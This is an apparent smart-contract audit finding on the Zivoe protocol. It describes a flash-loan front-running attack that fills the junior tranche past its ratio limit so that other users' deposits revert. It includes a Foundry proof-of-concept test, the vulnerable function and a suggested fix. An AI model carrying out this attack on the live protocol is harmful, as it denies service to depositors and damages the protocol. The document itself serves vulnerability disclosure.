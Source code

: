 Ancient Chartreuse Kangaroo

high

# Malicious user can DoS the junior tranche by depositing over `maxTrancheRatioBIPS`

# [H-02] Malicious user can DoS the junior tranche by depositing over `maxTrancheRatioBIPS`

## Summary
When someone wants to gain exposure on Zivoe protocol, he has to deposit his stablecoins on one of the two `tranches` it provides (junior or senior). By depositing on these tranches, he takes back `zJTT` or `zSTT` which are ERC-20 tokens 1:1 pegged on stablecoin deposited (and also have DEX liquidity pools). However, the `junior` tranche can be "closed" if its relative size to the `senior` tranche exceeds the `maxTrancheRatioBIPS` limit. This can be exploited by an attacker to prevent other users from depositing to the `junior` tranche, effectively DoSing the protocol.

## Vulnerability Detail
Basically, when the `adjustedSupply` of `zJTT` is bigger than the `maxTrancheRatioBIPS` of the `zSTT`(*BIPS), the `junior` tranche is closed. An investor could try to `deposit` his stablecoins to an "open" `junior` tranche and got front-runned by an attacker who has taken a flash loan on stablecoins to close the `junior` tranche by depositing on it. This will revert the investor's transaction and prevent him from depositing to the `junior` tranche. The attacker can then convert his `zJTT` to stablecoins on DEX pools and pay back the flash loan he got to perform this attack. To replay this attack, paste the following code to the `Test_ZivoeTranches.sol` contract and run the test.

```solidity
function test_ZivoeTranches_depositJunior_DoS() public {
        // Initial Tranches Offering going well / as expected.
        simulateITO(250_000 ether, 500_000 ether, 1_000_000 * USD, 500_000 * USD);

        // Victim Sue just wants to deposit 100 DAI to junior tranche.
        uint256 sueDeposit = 100 ether;
        mint("DAI", address(sue), sueDeposit);
        assert(sue.try_approveToken(address(DAI), address(ZVT), sueDeposit));

        // Attacker Bob saw Sue's transaction in the mempool, getting ready for his attack. He gets a flash loan on `amountAttackerHasToDeposit` DAI. 
        (uint256 seniorSupp, uint256 juniorSupp) = GBL.adjustedSupplies();
        uint256 amountAttackerHasToDeposit = (seniorSupp * ZVT.maxTrancheRatioBIPS() / BIPS).floorSub(juniorSupp);
        mint("DAI", address(bob), amountAttackerHasToDeposit);
        assert(bob.try_approveToken(address(DAI), address(ZVT), amountAttackerHasToDeposit));

        // Bob front-runs Sue and deposit just enough DAI to make junior tranche closed.
        hevm.startPrank(address(bob));
        ZVT.depositJunior(amountAttackerHasToDeposit, address(DAI));
        hevm.stopPrank();
        
        // Sue going to deposit her DAI. Her transaction will revert since junior tranche became closed.
        hevm.startPrank(address(sue));
        hevm.expectRevert("ZivoeTranches::depositJunior() !isJuniorOpen(amount, asset)");
        ZVT.depositJunior(sueDeposit, address(DAI));
        hevm.stopPrank();

        // Bob converts his zJTT on DEX pools back to stablecoin.
        hevm.startPrank(address(bob));
        // Bob getting back his stablecoins and paying back the flash loan.
        hevm.stopPrank();
    }
```

## Impact
As a result from this vulnerability, the `junior` tranche can be closed by an attacker and users only can deposit to the `senior` tranche. This will result to a loss of potential revenue for the protocol and a bad user experience for the users as well as break the protocol's functionality.

## Code Snippet
Here is the code snippet that shows how the `junior` tranche is closed when its relative size to the `senior` tranche exceeds the `maxTrancheRatioBIPS` limit :
```solidity
    function isJuniorOpen(uint256 amount, address asset) public view returns (bool open) {
        uint256 convertedAmount = IZivoeGlobals_ZivoeTranches(GBL).standardize(amount, asset);
        (uint256 seniorSupp, uint256 juniorSupp) = IZivoeGlobals_ZivoeTranches(GBL).adjustedSupplies();
        return convertedAmount + juniorSupp <= seniorSupp * maxTrancheRatioBIPS / BIPS;
    }
```
[Link to Code](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeTranches.sol#L192-L194)

## Tool used
Foundry, VSCode

## Recommendation
Consider using a time-weighted method so to decide when to close the `junior` tranche. 